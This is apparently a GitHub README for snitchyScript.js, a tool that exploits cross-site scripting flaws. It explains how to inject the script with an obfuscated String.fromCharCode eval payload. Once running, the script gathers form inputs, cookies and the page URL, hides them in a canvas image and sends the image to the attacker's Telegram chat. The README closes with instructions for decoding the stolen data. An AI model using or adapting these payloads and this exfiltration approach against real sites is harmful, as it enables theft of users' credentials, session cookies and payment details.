 
# snitchyScript.js

Modern XSS exploitation script.

![snitchyScript.js Logo](https://i.ibb.co/NsdcYGC/logo.png)

snitchyScript.js is a JavaScript script that exploit XSS vulnerabilities in a modern and simple way. Once inserted in a page the script will automatically get all elements in the page (such as input values, cookie values, current URL, etc...) and using canvas in JavaScript, create an image and hide all data into it (home made steganography algorithm). Once the image created, the image will be send using Telegram. 

### Proof Of Concept

[![Video PoC Shodan Quest](https://i.ibb.co/7gXHL9q/500px-youtube-social-play.png)](https://www.youtube.com/watch?v=HBahsMN6PFg)

### Requirement

* Telegram account (API keys)

### How to use

To explain how snitchyScript.js works, I have created two HTML pages in the repo.

* index.html: which simulate a html page with a reflected XSS in order to show how to insert the script and how the script behave.

* decryptLoot.html: which will allow to decrypt the data hidden in the image.
### Installation

Clone the repository

```shell
git clone https://github.com/Naqwa/snitchyScript.git
```

Once the repo cloned, edit the file snitchyScript.js (or snitchyScript.min.js for the minified version) and add your Telegram API credentials in the function sendTelegram.

```javascript
function sendTelegram(blob) {
   const telegramApiToken = '<API_TOKEN>'; //Insert your API_TOKEN
   const telegramChatID = '<chatID>'; //Insert your chatID
...
}
```
Now open the page index.html with your favorite browser. We can see a page with a fake payment. 
![snitchyScript.js home page demo](https://i.ibb.co/PNThqtk/snitchy-Script-home-page-demo.png)

I have created a reflected xss vulnerability on purpose in this page using the GET parameter "xss" to show how to insert and use snitchyScript.js 

For example:
```shell
file:///snitchyScript/index.html?xss=<img src=x onerror=alert('XSS_FOUND_:(');>
```

![snitchyScript.js home page demo xss](https://i.ibb.co/TK6z738/snitchy-Script-home-xss-demo.png)

Now it's time to exploit the xss vulnerability and insert snitchScript.js in the page.

For this, I have created the following payload (of course you are free to make yours!):

```javascript
snitchyCall = document.createElement("script");
snitchyCall.src = 'snitchyScript.js'
document.head.appendChild(snitchyCall);
```
To be able to use it easily in the URL, I encoded the characters in UTF-16. So now our payload looks like this:
```html
<img src=x onerror=eval(String.fromCharCode(115,110,105,116,99,104,121,67,97,108,108,32,61,32,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,34,115,99,114,105,112,116,34,41,59,10,32,32,32,32,32,32,115,110,105,116,99,104,121,67,97,108,108,46,115,114,99,32,61,32,39,115,110,105,116,99,104,121,83,99,114,105,112,116,46,106,115,39,10,32,32,32,32,32,32,100,111,99,117,109,101,110,116,46,104,101,97,100,46,97,112,112,101,110,100,67,104,105,108,100,40,115,110,105,116,99,104,121,67,97,108,108,41,59,32));>
```

Let's inject the payload in the page!

![snitchyScript.js home page demo inject payload](
https://i.ibb.co/t48gB9S/snitchy-Script-home-page-demo-injectpayload.png)

As we can see, the script has been successfully injected in the page.
And after?

Depending on the script you have injected (snitchyScript.js or snitchyScript-reflectedCookie.js) the behavior will not be exactly the same.

snitchyScript.js is based on a click button event, for example when a user clicks on a button, snitchyScript.js will be automatically executed and get all the values in the inputs text, select and textarea (so far) in the page, transform the data into a JSON array, and then insert the JSON array into the image (steganography process) before sending the image via Telegram. snitchyScript.js is more appropriate on a stored XSS case.

In the other hand, snitchyScript-reflectedCookie.js is more appropriate for reflected XSS, but only takes care of stealing the cookie and inserting it into the image before sending it. As soon as the page is loaded the script will be executed and send the cookie (not gonna wait for anything).

![snitchyScript.js demo page filling data](
https://i.ibb.co/DKYXdKx/snitchy-Script-home-page-demo-filled-data.png)

After executed, the script will send the image with the data hide inside in your Telegram chat. For now the image looks like this (can be changed in the code of course):

![snitchyScript.js loot image](
https://i.ibb.co/LdqsFHN/a1ob6.png)

### Decrypt the image
Since the data are hidden in the image, a decryption demo page has been created to extract the data from the image. So now let's go to decryptLoot.html and upload the image received on Telegram.

![snitchyScript.js loot image](
https://i.ibb.co/5cdFj8c/snitchy-Script-decrypt-loot-page.png)

Voila! The data has been decrypted from the image.

### What's next?

More features are coming soon (or not!), stay tune!

### Note
FOR EDUCATIONAL PURPOSE ONLY.